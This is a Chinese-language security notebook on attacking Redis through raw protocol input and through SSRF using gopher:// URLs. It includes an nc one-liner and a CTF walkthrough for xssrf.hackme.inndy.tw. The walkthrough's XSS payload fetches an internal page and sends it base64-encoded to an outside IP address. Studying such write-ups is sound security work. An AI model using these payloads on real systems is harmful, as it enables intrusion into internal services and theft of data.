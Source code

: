 

## redis hack

redis常用端口:6379

当我们访问6379端口时

```
-ERR wrong number of arguments for 'get' command
-ERR unknown command 'Host:'
-ERR unknown command 'Accept:'
-ERR unknown command 'Accept-Encoding:'
-ERR unknown command 'Via:'
-ERR unknown command 'Cache-Control:'
-ERR unknown command 'Connection:'
```

这个输出证明了HTTP的GET请求方法，在redis中作为一个有效的命令执行了，但是没有给这个命令提供正确的参数。其他的HTTP请求的没有匹配到Redis命令，出现了很多”unknown command”的错误信息。

`echo -e  '*3\r\n$3\r\nSET\r\n$10\r\nwith_space\r\n$11\r\nI am boring\r\n' | nc -n -q 1 127.0.0.1 6379 +OK`

成功执行set命令

### 文章

https://www.secpulse.com/archives/5366.html

### 利用ssrf和gopher协议

#### gopher 协议

Gopher 协议是 HTTP 协议出现之前，在 Internet 上常见且常用的一个协议。在ssrf时常常会用到gopher协议构造post包来攻击内网应用。其实构造方法很简单，与http协议很类似。不同的点在于gopher协议没有默认端口，所以需要指定web端口，而且需要指定post方法。回车换行使用%0d%0a。注意post参数之间的&分隔符也要进行url编码。

基本协议格式：

```
URL:gopher://<host>:<port>/<gopher-path>_后接TCP数据流
```

#### 实例:

https://xssrf.hackme.inndy.tw/

1. 找到xss注入点
   ![](http://ww1.sinaimg.cn/large/006pWR9agy1g6dg9q9e7aj30hd0lbq3o.jpg)
   ![](http://ww1.sinaimg.cn/large/006pWR9agy1g6dge5wtvlj30cx027glk.jpg)

2. ssrf代码
   利用这个注入点读取html源代码发现,requests.php处的参数url可以造成ssrf

   ```javascript
   xmlhttp=new XMLHttpRequest();
   xmlhttp.onreadystatechange=function()
   {
       if (xmlhttp.readyState==4 && xmlhttp.status==200)
       {
           document.location='http://39.108.164.219:60000/?'+btoa(xmlhttp.responseText);
       }
   }
   xmlhttp.open("POST","request.php",true);
   xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
   xmlhttp.send("url=gopher://127.0.0.1:25566/....");
   ```
